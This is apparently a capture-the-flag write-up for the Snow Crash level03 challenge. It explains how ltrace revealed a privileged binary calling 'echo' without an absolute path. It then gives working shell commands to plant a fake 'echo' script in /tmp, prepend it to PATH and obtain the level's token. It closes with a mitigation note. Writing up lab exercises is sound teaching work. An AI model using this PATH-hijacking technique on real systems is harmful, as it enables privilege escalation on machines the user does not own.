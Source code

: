 # Level03 - Snow Crash Exploit

## Description

While exploring the `level03` directory, I found an executable file named `level03`. Running the file produced the following output:

```
Exploit me
```

To investigate further, I used `ltrace` to trace calls to dynamic library functions (like `printf`, `strcpy`, `malloc`, etc.) made by the program at runtime:

```bash
ltrace ./level03
```

This revealed the following command being executed internally:

```
system("/usr/bin/env echo Exploit me")
```

Since `echo` is not called with an absolute path, an attacker can trick the program into executing a malicious script by modifying the `PATH` environment variable.

## Exploitation Steps

1. **Create a Malicious `echo` Script:**
    ```bash
    echo -e '#!/bin/bash\n/bin/getflag' > /tmp/echo
    chmod +x /tmp/echo
    ```

2. **Prepend `/tmp` to the `PATH`:**
    ```bash
    export PATH="/tmp:$PATH"
    ```

3. **Run the Vulnerable Program:**
    ```bash
    ./level03
    ```

4. **Result:**
    ```
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
    ```

## Mitigation

To prevent this vulnerability, always use absolute paths when executing binaries in privileged programs.

##